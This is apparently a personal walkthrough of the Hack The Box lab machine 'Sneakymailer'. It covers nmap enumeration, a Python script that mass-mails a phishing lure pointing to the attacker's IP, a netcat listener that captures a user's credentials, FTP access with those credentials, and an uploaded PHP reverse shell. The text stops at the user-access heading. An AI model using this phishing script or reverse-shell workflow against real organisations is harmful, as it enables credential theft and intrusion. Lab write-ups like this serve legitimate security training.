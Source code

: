 # Hack The Box - Sneakymailer

## This is my writeup and walkthrough for sneakymailer from Hack The Box.

![unknown](https://user-images.githubusercontent.com/36403473/91232091-b803f380-e72e-11ea-9097-71010dfe8f28.png)

## a medium linux machine.
## `Enumeration`
   
#### 1-Nmap 
```
nmap -sC -sV -O 10.10.10.197
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-18 12:38 EET
Nmap scan report for sneakycorp.htb (10.10.10.197)
Host is up (0.34s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
|   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
80/tcp   open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Employee - Dashboard
143/tcp  open  imap     Courier Imapd (released 2018)
|_imap-capabilities: STARTTLS ACL OK UIDPLUS ACL2=UNION IDLE IMAP4rev1 CHILDREN QUOTA THREAD=ORDEREDSUBJECT THREAD=REFERENCES completed ENABLE CAPABILITY UTF8=ACCEPTA0001 NAMESPACE SORT
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Courier Imapd (released 2018)
|_imap-capabilities: ACL OK UIDPLUS ACL2=UNION IDLE IMAP4rev1 CHILDREN QUOTA THREAD=ORDEREDSUBJECT AUTH=PLAIN completed CAPABILITY ENABLE NAMESPACE UTF8=ACCEPTA0001 THREAD=REFERENCES SORT
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.14.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/18%OT=21%CT=1%CU=44566%PV=Y%DS=2%DC=I%G=Y%TM=5F3BB00
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54BST11NW7%O2=M54BST11NW7%O3=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST1
OS:1NW7%O6=M54BST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.24 seconds
```
when i visited `http://10.10.10.179` it redirected me to `http://sneakycorp.htb` i added sneakymailer.htb to my `etc/hosts`
then i discovered the platform.
i found that this platform contains all Company employees mails in `team.php` page  so i distarct all this mails from `Html` page online [extract](http://www.emailx.discoveryvip.com/)
and looking to the `nmap` result we found that port 25 is open so that `smtp`  so the idea that i have to send phising mail to all of this mails for this i craeate python script to send phising mail 
```
import smtplib 
 

addresslist = ['airisatou@sneakymailer.htb','angelicaramos@sneakymailer.htb','ashtoncox@sneakymailer.htb','bradleygreer@sneakymailer.htb','brendenwagner@sneakymailer.htb',
'briellewilliamson@sneakymailer.htb','brunonash@sneakymailer.htb','caesarvance@sneakymailer.htb','carastevens@sneakymailer.htb', 
'cedrickelly@sneakymailer.htb','chardemarshall@sneakymailer.htb','colleenhurst@sneakymailer.htb','dairios@sneakymailer.htb','donnasnider@sneakymailer.htb',
'doriswilder@sneakymailer.htb','finncamacho@sneakymailer.htb','fionagreen@sneakymailer.htb','garrettwinters@sneakymailer.htb','gavincortez@sneakymailer.htb', 
'gavinjoyce@sneakymailer.htb', 'glorialittle@sneakymailer.htb', 'haleykennedy@sneakymailer.htb','hermionebutler@sneakymailer.htb','herrodchandler@sneakymailer.htb', 
'hopefuentes@sneakymailer.htb', 'howardhatfield@sneakymailer.htb', 'jacksonbradshaw@sneakymailer.htb','jenagaines@sneakymailer.htb','jenettecaldwell@sneakymailer.htb',
'jenniferacosta@sneakymailer.htb', 'jenniferchang@sneakymailer.htb', 'jonasalexander@sneakymailer.htb','laelgreer@sneakymailer.htb','martenamccray@sneakymailer.htb',
'michaelsilva@sneakymailer.htb', 'michellehouse@sneakymailer.htb', 'olivialiang@sneakymailer.htb','paulbyrd@sneakymailer.htb','prescottbartlett@sneakymailer.htb', 
'quinnflynn@sneakymailer.htb', 'rhonadavidson@sneakymailer.htb', 'sakurayamamoto@sneakymailer.htb', 'sergebaldwin@sneakymailer.htb','shaddecker@sneakymailer.htb', 
'shouitou@sneakymailer.htb', 'sonyafrost@sneakymailer.htb', 'sukiburks@sneakymailer.htb','sulcud@sneakymailer.htb', 'tatyanafitzpatrick@sneakymailer.htb', 
'thorwalton@sneakymailer.htb', 'tigernixon@sneakymailer.htb', 'timothymooney@sneakymailer.htb', 'unitybutler@sneakymailer.htb', 'vivianharrell@sneakymailer.htb',
'yuriberry@sneakymailer.htb','zenaidafrank@sneakymailer.htb'] 
 
fromaddr = 'it@sneakymailer.htb' 
 
for address in addresslist: 
    toaddrs  = address 
    TEXT = 'we have a security issue please visit http://10.10.16.120' 
    SUBJECT = 'Security issue' 
    msg = 'Subject: %s\n\n%s' % (SUBJECT, TEXT) 
 
    server = smtplib.SMTP('10.10.10.197',25) 
    server.starttls() 
    server.sendmail(fromaddr, toaddrs, msg) 
    server.quit() 

```
open port 80 to listen 
`nc -lnvp 80`  
waiting and finally  recive data from mails contains his mail, username and password
![recievedmailcredential](https://user-images.githubusercontent.com/36403473/91237371-bc360e00-e73a-11ea-8948-11d3e6743303.png)
```
email=paulbyrd%40sneakymailer.htb&
password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
``` 
i decode this string online 

```
username: PaulByrd

password: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht

email: paulbyrd@sneakymailer.htb

```
i tried to login to ftp server by this credential but i failed to login ,i stopped i don't know what to do
so one of my friend give me hent
hent is to know what is  up microsoft lookup.

So I searched to find a similar package for Linux in this link you will know all package [linux mailer ](https://itsfoss.com/best-email-clients-linux/).
i installed  `evolution`.
i login successfully  

![evolution](https://user-images.githubusercontent.com/36403473/91236339-f5b94a00-e737-11ea-922d-3cfc5e96c6fe.png)

i found mail from PaulByrd asked admin to change his name and password 
`Hello administrator, I want to change this password for the developer account`
so now i have credintial to login ftp server 
![ftp-connectd](https://user-images.githubusercontent.com/36403473/91236909-7b89c500-e739-11ea-8176-2c7bb1970b56.png)
so i downloaded all ftp server files on my pc to explore it comfortably by this command 
`wget -r -l 10 --ftp-user='developer' --ftp-password='m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C' ftp://10.10.10.197/`
![download-server-file](https://user-images.githubusercontent.com/36403473/91238766-17b5cb00-e73e-11ea-9e42-462e426b7f11.png)

I found the path to the dev file i tried to to uload revese shell t ftp server by curl command bu it doent work so i used `filezilla` to upload revese shell freerly 

![filezella](https://user-images.githubusercontent.com/36403473/91237690-93624880-e73b-11ea-8283-929a0ff9f91d.png)

i uploaded python rev shell but it doent work so i grep php revese shell from  
[pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)  and uploaded it to server and get access to server.

![connected-shell](https://user-images.githubusercontent.com/36403473/91237952-35823080-e73c-11ea-9654-b8b8da9de16f.png)

The first steps I always take are converting shell to full tty shell
```
    /usr/bin/script -qc /bin/bash /dev/null
    Ctrl-Z
    stty raw -echo
    fg
``` 
### 2-user access
